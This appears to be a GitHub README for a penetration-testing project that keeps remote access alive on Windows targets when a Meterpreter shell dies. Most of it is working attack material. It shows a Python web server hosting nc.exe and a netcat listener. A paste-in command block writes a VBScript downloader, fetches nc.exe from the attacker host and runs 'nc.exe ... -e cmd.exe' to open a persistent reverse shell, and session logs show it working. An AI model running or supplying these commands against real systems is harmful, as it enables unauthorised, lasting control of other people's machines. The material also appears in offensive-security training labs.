 # Windows Meterpreter Session Died
Some exploits are unstable in nature and only allow for a very short shell command window. Often times the reason the shell dies after only 30 secs is because underlying Windows OS doesnt recieve the confirmation of the started service. 
One way to get around this 30 second reverse shell limitation is to create a child process in the parent process. After the parent reverse shell process dies the child process will live on.
These scripts can help extend your remote shell session by quickly spawning a new reverse shell in a child process or new thread.
The txt files in this project with the word "Thread" in them spawn a new thread in a new CMD window.
This solution can be leveraged on any reverse shell that dies prematurely (Metepreter, NC, NCat etc) as the commands can be easily copied and pasted in a single action. 

NOTE:  Sometimes the reverse shell line will run before the NC.exe file has fully downloaded, just try running the nc.exe command again or waiting until running the final command until the nc.exe file has fully downloaded.

Here is an example of a Metepreter Exploit with a short lived reverse shell:

~~~~
[*] Started reverse TCP handler on 10.11.0.60:4444 
[*] Transmitting intermediate stager for over-sized stage...(216 bytes)
[*] Sending stage (179267 bytes) to 1.1.1.2
[*] Meterpreter session 1 opened (1.1.1.2:4444 -> 1.1.1.1:1996) at 2018-03-02 17:06:07 -0700

meterpreter > shell
Process 2960 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>cd\usrs
cd\usrs
The system cannot find the path specified.

C:\WINDOWS\system32>cd \
cd \

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8123B-EF81

 Directory of C:\

12/24/2009  05:03 AM                 0 AUTOEXEC.BAT
12/24/2009  05:03 AM                 0 CONFIG.SYS
09/19/2011  08:26 AM    <DIR>          Documents and Settings
04/20/2016  08:25 PM    <DIR>          WINDOWS
12/24/2009  05:04 AM    <DIR>          wmpub
               2 File(s)              0 bytes
               3 Dir(s)   5,666,758,656 bytes free

C:\>cd 
[*] 1.1.1.1 - Meterpreter session 1 closed.  Reason: Died
~~~~

How do we spawn a new reverse shell and extend our command session?

This solution uses Netcat for Windows to create the second shell session.
You will need to have the nc.exe file stored in a folder on your Kali Linux machine and then you can create a simple python web server to serve it up:
`python -m SimpleHTTPServer 80`

~~~~
root@kali:~/Documents/WindowsPRIVZ# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
1.1.1.1 - - [03/Mar/2018 08:29:24] "GET /nc.exe HTTP/1.0" 200 -
~~~~

Next you will want to create your local netcat listener.  I like to use port 443 just in case there are some firewall rules at play on the target machine.
`nc -nlvp 443`

~~~~
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
~~~~

Finally, you will want to select the correct script for the target OS and doctor it to use the correct IP Address for your kali machine.
Edit lines 19 and 21 and replace 1.1.1.1 with the IP Address of your Kali Linux machine.

Now kick off a new short lived reverse shell and once you are at the command prompt copy and paste the entire script (all the lines at once) into the shell.

~~~~
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Transmitting intermediate stager for over-sized stage...(216 bytes)
[*] Sending stage (179267 bytes) to 1.1.1.2
[*] Meterpreter session 7 opened (1.1.1.1:4444 -> 1.1.1.2:1031) at 2018-03-03 09:17:07 -0700

meterpreter > shell
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>cd\Documents and Settings\All Users\Documents\
timeout 1
echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs
timeout 1
echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs
timeout 1
echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs
timeout 1
echo xHttp.Send >> dl.vbs
timeout 1
echo bStrm.type = 1 >> dl.vbs
timeout 1
echo bStrm.open >> dl.vbs
timeout 1
echo bStrm.write xHttp.responseBody >> dl.vbs
timeout 1
echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
timeout 1
dl.vbs "http://1.1.1.1/nc.exe" "c:\Documents and Settings\All Users\Documents\nc.exe"
timeout 1
nc.exe -nv 1.1.1.1 443 -e cmd.exe
cd\Documents and Settings\All Users\Documents\

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo xHttp.Send >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.type = 1 >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.open >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.write xHttp.responseBody >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>dl.vbs "http://1.1.1.1/nc.exe" "c:\Documents and Settings\All Users\Documents\nc.exe"

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>nc.exe -nv 1.1.1.1 443 -e cmd.exe
nc.exe -nv 1.1.1.1 443 -e cmd.exe
(UNKNOWN) [1.1.1.1] 443 (?) open

[*] 1.1.1.2 - Meterpreter session 7 closed.  Reason: Die

~~~~

Although the Metepreter sessions has terminated or timed out, we still have our new remote session running in the background!

~~~~
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [1.1.1.1] from (UNKNOWN) [1.1.1.2] 1036
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.


C:\Documents and Settings\All Users\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 801B-EF81

 Directory of C:\Documents and Settings\All Users\Documents

03/03/2018  08:17 AM    <DIR>          .
03/03/2018  08:17 AM    <DIR>          ..
03/03/2018  08:17 AM               283 dl.vbs
12/24/2009  05:02 AM    <DIR>          My Music
03/03/2018  08:17 AM            38,616 nc.exe
               2 File(s)         38,899 bytes
               3 Dir(s)   5,666,869,248 bytes free

C:\Documents and Settings\All Users\Documents>
~~~~

